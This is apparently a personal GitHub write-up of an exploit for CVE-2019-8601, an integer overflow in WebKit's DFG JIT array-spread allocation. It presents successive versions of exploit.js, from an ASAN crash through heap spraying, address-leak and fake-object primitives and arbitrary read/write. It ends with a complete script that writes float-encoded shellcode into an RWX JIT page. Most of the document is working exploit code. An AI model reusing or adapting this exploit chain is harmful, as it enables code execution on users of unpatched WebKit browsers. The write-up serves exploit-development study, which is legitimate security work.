

# Exploiting CVE-2019-8601

This is an exploit for a WebKit vulnerability that was originally discovered by [Fluoroacetate](https://www.twitter.com/fluoroacetate) during the pwn2own competition in Vancouver. While I did not discover this bug, I wrote this exploit to practice my exploit development skills. The original writeup for this exploit is [here](https://www.zerodayinitiative.com/blog/2019/11/25/diving-deep-into-a-pwn2own-winning-webkit-bug) from Zero Day Initiative . While this write up is very good and it was instrumental in helping me understand the vulnerability, it is from the point of view of someone verifying the vulnerability. I found that some key details are missing when trying to engineer this exploit from scratch and I hope to fill in some of the gaps that the ZDI write up missed and gain practical skills on how to engineer a complicated exploit from scratch.

## Steps to Exploitation 

These steps serve as an outline to get arbitrary code execution within JavaScriptCore (JSC), the JavaScript engine for WebKit

- [ ] Identify the vulnerability
- [ ] Trigger the vulnerability and crash with ASAN enabled
- [ ] Get leakAddr and fakeObj primitives
- [ ] Corrupt array butterfly in order to achieve read and write primitives
- [ ] Use read and write primitives to achieve arbitrary code execution within JSC

## Identifying the Vulnerability

The vulnerability that will be exploited is an integer overflow that occurs in the code produced by the DFG just in time (JIT) compiler for WebKit. This specifically occurs in the `compileNewArrayWithSpread` function. This function will be called when code using [JavaScript spread syntax](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Spread_syntax) to create a new array is JITed by DFG.


Inside the JITed code, first it will compute the size of the array. It does this by adding the length of each argument passed to the array constructor. As it computes the size for each addition it checks for an overflow of the size. After this it will call the `compileAllocateNewArray` function passing the length that was computed in this function.


The `compileAllocateNewArray` will then pass the length that was computed before to `emitAllocateButterfly`.


The `emitAllocateButterfly` will then left shift the size 3 bits which is equivalent to multiplying it by 8. However, there is no check for an overflow and thus a number such as 0x20000001 can overflow to 0x8

This c program illustrates this vulnerability:

 


We can use this vulnerability to trick the JavaScript engine into thinking we've allocated an array with size 0x20000001 but actually only have allocated enough space for 1 JSValue (8 bytes). This will result in an out-of-bounds (OOB) read and write (R/W) primitive that can then be leveraged to achieve arbitrary R/W and eventually remote code execution (RCE).

- [x] Identify the vulnerability

  ## Triggering the Vulnerability with ASAN

In order to confirm that we have an OOB read we will try to trigger this vulnerability on an [address sanitizer](https://en.wikipedia.org/wiki/AddressSanitizer) (ASAN) build of JSC.

To do this from the WebKit directory we can run the commands:

```bash
Tools/Scripts/set-webkit-configuration --asan
Tools/Scripts/build-jsc --jsc--only --debug
```

This will build a debug build of JSC with ASAN enabled allow us to verify whether of not we have successfully triggered the vulnerability.

Here is the first iteration of exploit.js

```javascript
function jitMe(array){
  return [...array]
}

let dummy = [1.1]
for(let i = 0; i < 200; i++){
  jitMe(dummy);
}

let a = []

let len = 0x20000001                                                                     

for(let i = 0; i < len; i++){
  a[i] = 1.1 
}

jitMe(a)

```

When running this I get the following error:

Program terminated with signal SIGKILL, Killed.
The program no longer exists.

My guess was that too much memory was being consumed when trying to allocate such a large array. In order to confirm this, I added a breakpoint to the JITed code by adding a call to `m_jit.breakpoint()` inside of the `compileNewArrayWithSpread` which adds an `int3` instruction to the JITed code.

After adding the breakpoint I found that it wasn't hit and then I decided to test a length of 0x20001. I then realized that the code wasn't even being compiled so I added more iterations to activate the DFG compiler

```javascript
function jitMe(array){
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1 
  }
  return [...array]
}

let dummy = [1.1]
for(let i = 0; i < 60; i++){
  print(i)
  jitMe(dummy);
}

let a = []

let len = 0x20000001 

for(let i = 0; i < len; i++){
  a[i] = 1.1 
}

jitMe(a)
```

Testing the program as is still leads to the SIGKILL however, when testing with a smaller length, the breakpoint gets hit. At this point it still seems to me that JSC is running out of memory when trying to process that huge array.

In order to deal with this, I decided to allocate a smaller `a` array and then use the spread syntax to use it multiple times when creating the corrupted array resulting in the following exploit.js

```
function jitMe(array){
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array]
}

let dummy = [1.1]
for(let i = 0; i < 100; i++){
  print(i)
  jitMe(dummy);
}

let a = []

let len = 0x20000010 / 0x10

for(let i = 0; i < len; i++){
  a[i] = 1.1
}

jitMe(a)

```

Using this code we were able to hit the breakpoint without a SIGKILL! As is usually the case, fixing one issue brings out another and we got a SIGABORT instead... Using the gdb `bt` command we can see that  `operationNewArrayWithSize` was called which called `create`.

It seems strange that our JITed code would be calling `operationNewArrayWithSize` and it must be that the JITed code had to take a slow path to the JavaScript engine for some reason.


We can see in the `compileAllocateNewArrayWithSize` that there is indeed a bailout to `operationNewArrayWithSize`. We then need to find out why exactly we are bailing out to the slow case.

We can see that in `compileNewArrayWithSpread` that `shouldConvertLargeSizeToArrayStorage` is set to false and that slow path won't be in the compiled code.

Therefore it makes sense that the slow path is being hit somewhere within `emitAllocateJSObject`


`emitAllocateJSObject` calls `emitAllocateJSCell` which in turn calls `emitAllocate`.


With no knowledge of how the WebKit Allocator works this seems pretty confusing. I therefore decided to add a couple of breakpoints and step through it in gdb.

After hitting a breakpoint set in `emitAllocateVariableSized` which was called by `emitAllocateButterfly` we see the following assembly code:

Which corresponds to the code emitted by the JIT compiler here:

We can see that the allocation size is added to 0xf then right shifted by 4. It is then compared with 0x1f6 corresponding to the slow path branch. After that it will move the subspace allocator to rsi and index into this pointer based off the calculations that were performed.  We then continue to the breakpoint which was placed in `emitAllocateWithNonNullAllocator` to find the following assembly code:


Which corresponds to the code emitted by the JIT compiler here:

Now that we've stepped through some of the assembly we have a little more context of what is going on. Stepping for two more instructions we see that we will take the jump:


Looking at the C++ code we can infer that this means there is zero space remaining in the free list of this allocator so it will take the pop path.


performing the jump and executing the next two instructions we see that the jump is taken directly corresponding to taking the slow path. We take the slow path because the secret of the allocator is XORed with the scrambled head of the allocator and the result is zero. Without anymore knowledge about the WebKit allocator it is hard to figure out exactly what is going on.

While I'd love to spend more time learning about the WebKit allocator I figured an easier way to go about this would be to try a couple of ideas and see if they lead to any different results and debug from there.

One of the ideas I had was to allocate an array of size 0x10 since this will be in the same allocation step size as our array that will trigger the vulnerability and then to call `jitMe` with an array of size 1. Since we know the address of the allocator we can set a watch point on the values that lead to branches and see when they change. I had this idea because I figured allocating an object that will be in the same step size might lead the allocator to a different more interesting state. This leads to the next iteration of exploit.js

```javascript
function jitMe(array){
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1 
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array]
}

let dummy = [1.1]
for(let i = 0; i < 80; i++){
  print(i)
  jitMe(dummy);
}

let a = []

let len = 0x20000010 / 0x10

for(let i = 0; i < len; i++){
  a[i] = 1.1 
}

let x = new Array(0x10)
let b = [1.1]

jitMe(b)                                                                                             
jitMe(a)
```

Testing this idea worked!

We can see that when testing `jitMe` on the small array we don't take the slow path! We then set a watch point on r8 + 0x18 to see when this value is set to zero.  After we hit the watch point we get the following backtrace:


Based on the names of the functions in the back trace it seems like a garbage collection is being performed which sets the value of `secret` and `scrambledHead` to 0. 

Based on the call stack we know that the call to `tryCreate` in `createFromArray` is responsible for kicking off the garbage collection. 


Inside `createFromArray` it will also loop through and access each element and if we can intercept the call to get and reinitialize the allocator we can prevent it from taking the slow path.

exploit.js:

``` 
function jitMe(array, reInitAllocator){
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...reInitAllocator]
}

let dummy = [1.1]
for(let i = 0; i < 80; i++){
  jitMe(dummy, dummy);
}

let a = []

let len = 0x20000010 / 0x10

for(let i = 0; i < len; i++){
  a[i] = 1.1
}

let b = [];
b.length = 1;

b.__defineGetter__(0, () => {
  let x = new Array(0x10)
})

jitMe(a, b)
```

Gives us an ASAN error!

- [x] Trigger the vulnerability and crash with ASAN enabled

### Heap Spraying to Get Overlapping Allocations

Now that we can reliably trigger the vulnerability, we would like to use our OOB R/W primitive to further corrupt memory and get a type confusion primitive. The first step is to recompile JSC with ASAN disabled. After doing this we rerun exploit.js and get the following crash


We can see that we are corrupting this to point to 0x3ff299999999999a when we use python struct module to convert the float value 1.1 to bytes we get the just what we'd expect: 0x3ff299999999999a 

Now that we can see that we have achieved memory corruption we need to do some heap massaging to turn this into a type confusion. The idea will be to spray a number of ArrayWithDoubles and ArrayWithContiguous and corrupt the length of the butterfly so we can achieve out of bounds access with these arrays and get a type confusion. Hopefully, allocating enough arrays will prevent the out of bounds from corrupting any important values.

```
function jitMe(array, reInitAllocator){                                                                                            
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...reInitAllocator]
}

print("[+] JIT compiling the vulnerable function ")
let dummy = [1.1]
for(let i = 0; i < 85; i++){
  jitMe(dummy, dummy);
}

dummy = 0

let a = []

let len = 0x20000010 / 0x10

print("[+] Making array to trigger the overflow")
for(let i = 0; i < len; i++){
  a[i] = -3.7206620809969885e-103;
}

let b = [];
b.length = 1;

let sprayedArrays = []
let arrayWithDouble = []
let arrayWithContiguous = []

print("[+] Making arrays to prevent slow path")
// this array can only contain doubles
for(let i = 0; i < 0x10; i++){
  arrayWithDouble[i] = 2.0286158381253047e-252
}

// this array can contain doubles and objects
for(let i = 0; i < 0x10; i++){
  arrayWithContiguous[i] = {}
}

b.__defineGetter__(0, () => {
  for(let i = 0; i < 0x8000; i++){
    // we alternate arrays so that when we read out of bounds we can place the desired object directly after it in memory
    if(i % 2 == 0){
      // We use slice to make a copy this replaces new Array(0x10) and will reinitalize the allocator
      sprayedArrays[i] = arrayWithDouble.slice();
    }else{
      sprayedArrays[i] = arrayWithContiguous.slice();
    }
  }
})
print("[+] Triggering the overflow")
let badArray = jitMe(a, b)
```

After we spray these arrays, they will be overwritten with the data from `badArray`. This will however, prevent   a seg fault after we write out of bounds. To get a corruptible array, we can allocate three more arrays, an ArrayWithDouble, followed by an ArrayWithContiguous, followed by an ArrayWithDouble. Once we corrupt the array, we can write an object into the ArrayWithContiguous and read it form the ArrayWithDouble to create a type confusion and read an address. Additionally, we can write an address into the second ArrayWithDouble and read it from the ArrayWithContiguous to get a fake object at a specified address.

Implementing this we get:

```
function jitMe(array, reInitAllocator){                                                                                            
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...reInitAllocator]
}

print("[+] JIT compiling the vulnerable function ")
let dummy = [1.1]
for(let i = 0; i < 85; i++){
  jitMe(dummy, dummy);
}

dummy = 0

let a = []

let len = 0x20000010 / 0x10

print("[+] Making array to trigger the overflow")
for(let i = 0; i < len; i++){
  a[i] = -3.7206620809969885e-103;
}

let b = [];
b.length = 1;

let sprayedArrays = []
let arrayWithDouble = []
let arrayWithContiguous = []

print("[+] Making arrays to prevent slow path")
// this array can only contain doubles
for(let i = 0; i < 0x10; i++){
  arrayWithDouble[i] = 2.0286158381253047e-252
}

// this array can contain doubles and objects
for(let i = 0; i < 0x10; i++){
  arrayWithContiguous[i] = {}
}

b.__defineGetter__(0, () => {
  for(let i = 0; i < 0x8000; i++){
    // we alternate arrays so that when we read out of bounds we can place the desired object directly after it in memory
    if(i % 2 == 0){
      // We use slice to make a copy this replaces new Array(0x10) and will reinitalize the allocator
      sprayedArrays[i] = arrayWithDouble.slice();
    }else{
      sprayedArrays[i] = arrayWithContiguous.slice();
    }
  }
})
print("[+] Triggering the overflow")
let badArray = jitMe(a, b)
// read address from this array
sprayedArrays[0] = arrayWithDouble.slice(); 
// insert address to read into this array and get fake objects from this array
sprayedArrays[1] = arrayWithContiguous.slice();
// insert address of fake objects into this array
sprayedArrays[2] = arrayWithDouble.slice(); 

// helper arrays to do float and integer conversions
var backingBuffer = new ArrayBuffer(8)
var f = new Float64Array(backingBuffer)
var i = new Uint32Array(backingBuffer)

function i2f(num) {
  i[0] = num % 0x100000000
  i[1] = num / 0x100000000
  return f[0]
}

function f2i(num) {
  f[0] = num
  return (i[1] * 0x100000000) + i[0]
}

print("[+] Getting leakAddr and fakeObj primitives")

let NEW_LENGTH = 21
let LEAK_ARRAY_INDEX = 0
let FAKE_ARRAY_INDEX = 1

badArray[19] = NEW_LENGTH;
badArray[39] = NEW_LENGTH;

function leakAddr(obj) {
  sprayedArrays[1][0] = obj;
  let floatAddr = sprayedArrays[LEAK_ARRAY_INDEX][NEW_LENGTH - 1];
  return f2i(floatAddr);
}

function fakeObj(addr) {
  let floatAddr = i2f(addr)
  sprayedArrays[2][0] = floatAddr
  return sprayedArrays[FAKE_ARRAY_INDEX][NEW_LENGTH - 1]
}

```

- [x] Get leakAddr and fakeObj primitives

### Get Arbitrary Read Write Primitives

Now that we have a fake object and an address leaking primitive our next goal is to achieve arbitrary read write primitives. Our general strategy will be to create a fake object and point the butterfly at the butterfly of an ArrayWithDouble and to write to this butterfly the address we want to read or write from. This technique is used during the original exploit and is mentioned by saelo in [this article](https://gist.github.com/saelo/dd598a91a27ddd7cb9e410dc92bf37a1). 

However, before I was able to do this I ran into an unexpected error. I found that after I added a certain amount of code to the exploit, triggering the vulnerability wouldn't work and I would hit the slow path causing an out of memory exception. 

To fix this I found that I was able to treat the code to be run as a string and call the JavaScript `eval` function. For whatever reason this was able to circumvent this issue.

To set up our fake object we need it to have a valid structure ID. In order to do this we spray a bunch of structure IDs and set ours to a predictable structure ID. 

In order to overwrite the butterfly of the ArrayWithDouble, we need to be able to index to target butterfly. To do this we keep allocating arrays until the address is greater than the address of the middle element of the sprayed structure IDs array. We then set the butterfly of our fake object to be this middle element and index into the fake object butterfly to set the target butterfly.

```
function jitMe(array, reInitAllocator){                                                                                            
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...reInitAllocator]
}

print("[+] JIT compiling the vulnerable function ")
let dummy = [1.1]
for(let i = 0; i < 85; i++){
  jitMe(dummy, dummy);
}

dummy = 0

let a = []

let len = 0x20000010 / 0x10

print("[+] Making array to trigger the overflow")
for(let i = 0; i < len; i++){
  a[i] = -3.7206620809969885e-103;
}

let b = [];
b.length = 1;

let sprayedArrays = []
let arrayWithDouble = []
let arrayWithContiguous = []

print("[+] Making arrays to prevent slow path")
// this array can only contain doubles
for(let i = 0; i < 0x10; i++){
  arrayWithDouble[i] = 2.0286158381253047e-252
}

// this array can contain doubles and objects
for(let i = 0; i < 0x10; i++){
  arrayWithContiguous[i] = {}
}

b.__defineGetter__(0, () => {
  for(let i = 0; i < 0x8000; i++){
    // we alternate arrays so that when we read out of bounds we can place the desired object directly after it in memory
    if(i % 2 == 0){
      // We use slice to make a copy this replaces new Array(0x10) and will reinitalize the allocator
      sprayedArrays[i] = arrayWithDouble.slice();
    }else{
      sprayedArrays[i] = arrayWithContiguous.slice();
    }
  }
})
print("[+] Triggering the overflow")
let badArray = jitMe(a, b)
// read address from this array
sprayedArrays[0] = arrayWithDouble.slice(); 
// insert address to read into this array and get fake objects from this array
sprayedArrays[1] = arrayWithContiguous.slice();
// insert address of fake objects into this array
sprayedArrays[2] = arrayWithDouble.slice(); 

//eval this code indirectly to prevent weird slow path crash
let postTrigger = `
// helper arrays to do float and integer conversions
var backingBuffer = new ArrayBuffer(8)
var f = new Float64Array(backingBuffer)
var i = new Uint32Array(backingBuffer)

function i2f(num) {
  i[0] = num % 0x100000000
  i[1] = num / 0x100000000
  return f[0]
}

function f2i(num) {
  f[0] = num
  return (i[1] * 0x100000000) + i[0]
}

print("[+] Getting leakAddr and fakeObj primitives")

let NEW_LENGTH = 21
let LEAK_ARRAY_INDEX = 0
let FAKE_ARRAY_INDEX = 1

badArray[19] = NEW_LENGTH;
badArray[39] = NEW_LENGTH;

function leakAddr(obj) {
  sprayedArrays[1][0] = obj;
  let floatAddr = sprayedArrays[LEAK_ARRAY_INDEX][NEW_LENGTH - 1];
  return f2i(floatAddr);
}

function fakeObj(addr) {
  let floatAddr = i2f(addr)
  sprayedArrays[2][0] = floatAddr
  return sprayedArrays[FAKE_ARRAY_INDEX][NEW_LENGTH - 1]
}
/
print("[+] Spraying structure IDs")
// now predict structure id
var sprayedStructureIDs = []

for(let x = 0; x < 0x400; x++){
  let struct = {a:0x100, b:0x200, c:0x300, d:0x400, e:0x500, f:0x600, g:0x700}
  struct['addNewStructureId'+x] = 0x1337
  sprayedStructureIDs[x] = struct;
}

print("[+] Setting up the fake object")
// set up the fake object
// subtrace 0x1000000000000 to account for JS boxing
var fakeHost = {a:i2f(0x0108200700000100 - 0x1000000000000), b:sprayedStructureIDs[0x80]};

// when we create a fake object the structure ID will be fakeStructureID and the butterfly will point to an object allocated in our sprayed array
// we then want to allocate an array at a memory address greater than the butterfly and we use this object to overwrite the target butterfly
var baseAddr = leakAddr(sprayedStructureIDs[0x80])
print("[+] Base address @ 0x" + baseAddr.toString(16))
var target = []
var targetAddr = leakAddr(target)

while(targetAddr < baseAddr){
  target = []
  targetAddr = leakAddr(target)
}

// make sure target is ArrayWithDouble
target[1] = 1.1

print("[+] Got a array with controllable butterfly")
let fakeAddr = leakAddr(fakeHost) + 0x10
let hax = fakeObj(fakeAddr)

let targetButterflyIndex = ((targetAddr - baseAddr) / 8) + 1;
let targetButterflyPointer = f2i(hax[targetButterflyIndex])
print("[+] target butterfly == 0x" + targetButterflyPointer.toString(16))
print("[+] target address @ 0x" + targetAddr.toString(16))

function setTargetButterfly(address) {
  hax[targetButterflyIndex] = i2f(address)
}

print("[+] Got R/W primitive")
`

eval(postTrigger)                                      
```

- [x] Corrupt array butterfly in order to achieve read and write primitives

### Achieving Arbitrary Code Execution Within the Rendering Process

Now that we have a read write primitive, All we need to do is overwrite a JIT page with custom shellcode. We overwrite the JIT page since this will likely be the only memory area that will be mapped as RWX in the process. While we could instead perform a ROP chain and a stack pivot to map a memory region as RWX and execute our shellcode, this proves to be much simpler.

In order to overwrite the JIT page, we first need a JITed function. I chose to use the `jitMe` function we used to trigger the vulnerability. From here I used gdb to follow pointers in this object until I reached the memory  holding the JITed code. It should be noted that these pointer offsets are very specific to this version of WebKit and it is likely that they could change in the future. This should not be relied on when writing a exploit that is meant to work across multiple versions of WebKit.

After we found the pointer to the JIT page, we need to write shellcode to pop a calculator. This shellcode can be seen here:


We then need to assemble the shellcode, extract the bytes, and convert them to floats that we can write using our R/W primitive.

This gives us the final exploit.js:

```
function jitMe(array, reInitAllocator){
  for(let i = 0; i < 0x4000; i++){
    let x = 1 + 1
  }
  return [...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...array, ...reInitAllocator]
}

print("[+] JIT compiling the vulnerable function ")
let dummy = [1.1]
for(let i = 0; i < 85; i++){
  jitMe(dummy, dummy);
}

dummy = 0

let a = []

let len = 0x20000010 / 0x10

print("[+] Making array to trigger the overflow")
for(let i = 0; i < len; i++){
  a[i] = -3.7206620809969885e-103;
}

let b = [];
b.length = 1;

let sprayedArrays = []
let arrayWithDouble = []
let arrayWithContiguous = []

print("[+] Making arrays to prevent slow path")
// this array can only contain doubles
for(let i = 0; i < 0x10; i++){
  arrayWithDouble[i] = 2.0286158381253047e-252
}

// this array can contain doubles and objects
for(let i = 0; i < 0x10; i++){
  arrayWithContiguous[i] = {}
}

b.__defineGetter__(0, () => {
  for(let i = 0; i < 0x8000; i++){
    // we alternate arrays so that when we read out of bounds we can place the desired object directly after it in memory
    if(i % 2 == 0){
      // We use slice to make a copy this replaces new Array(0x10) and will reinitalize the allocator
      sprayedArrays[i] = arrayWithDouble.slice();
    }else{
      sprayedArrays[i] = arrayWithContiguous.slice();
    }
  }
})
print("[+] Triggering the overflow")
let badArray = jitMe(a, b)


// read address from this array
sprayedArrays[0] = arrayWithDouble.slice();
// insert address to read into this array and get fake objects from this array
sprayedArrays[1] = arrayWithContiguous.slice();
// insert address of fake objects into this array
sprayedArrays[2] = arrayWithDouble.slice();

// helper arrays to do float and integer conversions

let postTrigger = `
var backingBuffer = new ArrayBuffer(8)
var f = new Float64Array(backingBuffer)
var i = new Uint32Array(backingBuffer)

function i2f(num) {
  i[0] = num % 0x100000000
  i[1] = num / 0x100000000
  return f[0]
}

function f2i(num) {
  f[0] = num
  return (i[1] * 0x100000000) + i[0]
}

print("[+] Getting leakAddr and fakeObj primitives")

let NEW_LENGTH = 21
let LEAK_ARRAY_INDEX = 0
let FAKE_ARRAY_INDEX = 1

badArray[19] = NEW_LENGTH;
badArray[39] = NEW_LENGTH;

function leakAddr(obj) {
  sprayedArrays[1][0] = obj;
  let floatAddr = sprayedArrays[LEAK_ARRAY_INDEX][NEW_LENGTH - 1];
  return f2i(floatAddr);
}

function fakeObj(addr) {
  let floatAddr = i2f(addr)
  sprayedArrays[2][0] = floatAddr
  return sprayedArrays[FAKE_ARRAY_INDEX][NEW_LENGTH - 1]
}
print("[+] Spraying structure IDs")
// now predict structure id
var sprayedStructureIDs = []

for(let x = 0; x < 0x400; x++){
  let struct = {a:0x100, b:0x200, c:0x300, d:0x400, e:0x500, f:0x600, g:0x700}
  struct['addNewStructureId'+x] = 0x1337
  sprayedStructureIDs[x] = struct;
}

print("[+] Setting up the fake object")
// set up the fake object
// subtrace 0x1000000000000 to account for JS boxing
var fakeHost = {a:i2f(0x0108200700000100 - 0x1000000000000), b:sprayedStructureIDs[0x80]};

// when we create a fake object the structure ID will be fakeStructureID and the butterfly will point to an object allocated in our sprayed array
// we then want to allocate an array at a memory address greater than the butterfly and we use this object to overwrite the target butterfly
var baseAddr = leakAddr(sprayedStructureIDs[0x80])
print("[+] Base address @ 0x" + baseAddr.toString(16))
var target = []
var targetAddr = leakAddr(target)

while(targetAddr < baseAddr){
  target = []
  targetAddr = leakAddr(target)
}

target[1] = 1.1

print("[+] Got a array with controllable butterfly")
let fakeAddr = leakAddr(fakeHost) + 0x10
let hax = fakeObj(fakeAddr)

let targetButterflyIndex = ((targetAddr - baseAddr) / 8) + 1;
let targetButterflyPointer = f2i(hax[targetButterflyIndex])
print("[+] target butterfly == 0x" + targetButterflyPointer.toString(16))
print("[+] target address @ 0x" + targetAddr.toString(16))

function setTargetButterfly(address) {
  hax[targetButterflyIndex] = i2f(address)
}

print("[+] Got R/W primitive")

var myJitAddr = leakAddr(jitMe)

setTargetButterfly(myJitAddr+24)
var ptr1 = f2i(target[0])
setTargetButterfly(ptr1+8)
var ptr2 = f2i(target[2])
setTargetButterfly(ptr2-8)
target[0]=1.1
setTargetButterfly(ptr2+16)
var rwx = f2i(target[0])

print("[+] RWX address @ 0x" + rwx.toString(16))
setTargetButterfly(rwx)
target[0] = 7.724899899490056e+228
target[1] = 1.3869658928112658e+219
target[2] = -1.4290575191402725e-37
target[3] = 1.0940812634921282e+189
target[4] = 2.0546950522151997e-81
target[5] = -1.416537102831749e-34
target[6] = 1.1467072576990874e+23
target[7] = 3.39834180316358e+78
target[8] = 1.5324871326e-314
target[9] = 3.173603568941646e+40
target[10]= 1.9656830452398213e-236
target[11]= -6.828527034422582e-229

print("[+] Executing Shellcode...")

jitMe([13.37],[13.37])
`

eval(postTrigger)                 
```

Finally, a video of the exploit working!

<video src="./img/exploit.mp4"></video>

### Conclusion

This hopefully this shows how you can take a JSC n-day and develop an exploit for it. I benefited by having the Zeroday Initiative writeup. While I did use this while writing the exploit, I tried only to take the main ideas and do the implementation by myself without looking at the write up. 

This exploit is only a proof of concept and is not as robust as it could be. Although I have not experienced any failed attempts, there is always work that could be done to improve it. Since I did this as a learning experience I did not bother to make the exploit as robust as it could possible be. 